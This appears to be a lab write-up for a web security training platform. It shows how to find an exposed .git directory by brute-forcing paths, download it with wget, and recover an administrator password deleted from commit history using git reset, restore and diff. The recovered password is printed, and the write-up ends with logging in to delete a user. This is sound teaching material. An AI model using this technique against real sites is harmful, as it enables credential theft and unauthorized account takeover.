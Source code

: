 ### Information disclosure in version control history
<i>Please note that during the explanation my Lab ID will change, so there will be some discrepancy between the screen-shots and commands</i><br>
To follow the solution you will need to have installed:
+ wget
+ git CMD

#### Lab
The lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

First of all let's to brute-force the application directories structure. To do that we can use Intruder. Set up the position in the request as follows (choose Sniper as attack)
--100--
Then in the payload(1) set the type as Simple list (2) and the list of the sub directories to test (3, <i>please note that here I have used a limited wordlist to speed up the process</i>). Be sure to uncheck the URL encoding characters option (4) before to execute the attack.
--101--
After a while we can see that the <b>.git</b> has been found. 
--102--
Just to recall this folder contains all information that is necessary for the project and all information relating commits. It also contains a log that stores the commit history. This log can help you to roll back to the desired version of the code. Very interesting, first we have open a git CMD, then we can proceed to downlad the whole folder using wget:
```
wget -r https://0aae000604fffb3fc15be60b0075004c.web-security-academy.net/.git
```
Now enter into the downloaded directory
```
cd 0aae000604fffb3fc15be60b0075004c.web-security-academy.net
```
then we can check git log
```
>git log
commit 382d921b56e84ec70bb7cab25e444e98d4c02350 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 68eb0e4aabbe8db5654194dfc68db2f1430f4ee5
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```
We can see from the above command that the admin passord was removed from the config file. Now we can check the status 
```
>git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php

no changes added to commit (use "git add" and/or "git commit -a")
```
Here we can see that the changes have not yet been added to the staging area, we can try to revert the last commit using reset command, then check the status again
```
>git reset --soft HEAD~1

>git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        modified:   admin.conf

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php
```
Now we can see that there are pending modification in the admin.conf file, as suggested we can restore the original modification of the file issuing the following command
```
>git restore --staged admin.conf
>REM then we can use the diff command to get the deleted information in the admin.conf file
>git diff
diff --git a/admin.conf b/admin.conf
deleted file mode 100644
index 3ac915d..0000000
--- a/admin.conf
+++ /dev/null
@@ -1 +0,0 @@
-ADMIN_PASSWORD=jw8ut5ca18vqbmvg75ij
diff --git a/admin_panel.php b/admin_panel.php
deleted file mode 100644
index 8944e3b..0000000
--- a/admin_panel.php
+++ /dev/null
@@ -1 +0,0 @@
-<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
\ No newline at end of file
```
Knowing the administrator password we can proceed to login and delete carlos
#### References
